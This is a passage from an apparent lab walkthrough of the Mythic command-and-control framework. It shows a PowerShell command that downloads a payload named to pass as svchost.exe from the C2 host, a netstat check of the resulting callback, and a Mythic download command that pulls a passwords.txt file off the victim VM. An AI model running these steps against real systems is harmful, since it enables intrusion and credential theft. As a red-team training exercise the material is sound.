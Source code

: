 **Phase 5 Command & Control**

Now if we go over to our Kali RDP session we'll open up a Powershell with Admin (right click start and select Windows PowerShell (Admin) and we'll run the following command:
```
Invoke-WebRequest -Uri http://(Your Mythic VM IP):9999/svchost-(Your Handle.exe -OutFile "C:\Users\Public\Downloads\svchost-(Your Handle).exe"
```
If we run a netstat on our Kali RDP session, in a new PowerShell session we can see that our payload has established a session.
```
netstat -anob

...
TCP    <Your WIN VM IP>:62483    <Your Mythic VM IP>:80      ESTABLISHED     7500
 [svchost-<Your Handle>.exe]
```

Under the "Active Callbacks" tab (the telephone icon) on our Mythic dashboard we cab see ab estaablished connection.

![Mythic Dashboard - Callback tab](https://github.com/user-attachments/assets/e323fe50-0984-4268-b0fc-03f0d244e341)

If you click on the small red keyboard icon under the "Interact" column we can run the same commands from here that we did on our RDP session.

![Mythic Dashboard - Callback tab - Running agent commands](https://github.com/user-attachments/assets/7f924db0-6378-4430-b08c-2a39f38409a7)

You can find the commands under the Help menu at the top right hand corner of your Mythic dashboard for "Agent Documentation".

![Mythic Dashboard - Help Menu - Agent Documentation](https://github.com/user-attachments/assets/3256a958-348e-41f9-be92-d42e4cb3152b)

![Mythic Dashboard- Agent Documentation](https://github.com/user-attachments/assets/457a0462-3692-43b4-804a-59493cee94a1)


**Phase 6 Exfiltration**

Let's attempt to extract the "passwords.txt" file from the Windows VM we created in the Aministrators Documents folder from our C2.  The Mythic command documentation shows a download option we can use.

![Mythic command documentation for Download](https://github.com/user-attachments/assets/bd5232d3-2b78-42e4-a285-db56361be67b)

Let's try running the floowing on the "Callbacks" tab of our Mythic dashboard:
```
download C:\Users\Administrator\Documents\passwords.txt
```
And if the path is correct is should show on the dashboard it was extracted and even display the contacts of the file (blanked out for security purposes).

![Mythic dashboard - Call back tab - Download command results5](https://github.com/user-attachments/assets/2a426fb6-a120-491a-ac1e-6e8b23b8c1f6)

the file will be shown under the "File" tab (The paperclip icon).  You can even click on the down arrow under the "More" column which shows you the hashes for the passwords.txt file.

![Mythic dashboard - File tab - Downoaded file display with More display option (hashes)](https://github.com/user-attachments/assets/526e72c3-43d6-422f-9e42-6e22e559da01)
